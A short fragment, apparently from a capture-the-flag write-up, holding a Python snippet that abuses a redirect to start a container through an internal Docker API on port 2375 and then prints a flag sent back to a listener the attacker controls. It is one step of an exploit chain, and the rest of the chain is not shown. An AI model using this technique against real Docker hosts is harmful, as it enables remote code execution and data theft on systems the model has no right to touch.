 ```python
# start container
redirect_bounce(f"{PRISON_INTERNAL_IP}:2375/containers/{container_id}/start --json @/dev/null")

# let container start
time.sleep(3)

print(flag_receiver.data.decode())
```
